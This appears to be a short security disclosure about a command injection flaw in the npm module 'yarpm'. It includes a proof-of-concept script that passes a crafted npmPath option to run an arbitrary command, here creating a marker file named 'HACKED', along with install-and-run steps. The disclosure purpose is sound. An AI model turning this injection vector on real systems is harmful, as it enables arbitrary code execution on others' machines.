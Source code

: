 # :bug: Description

The `yarpm` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
const yarpm = require('yarpm');
yarpm(['HACKED'], {npmPath:'touch'});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i yarpm # Install affected module
node poc.js #  Run the PoC
```
14 Recheck the files: now `HACKED` has been created
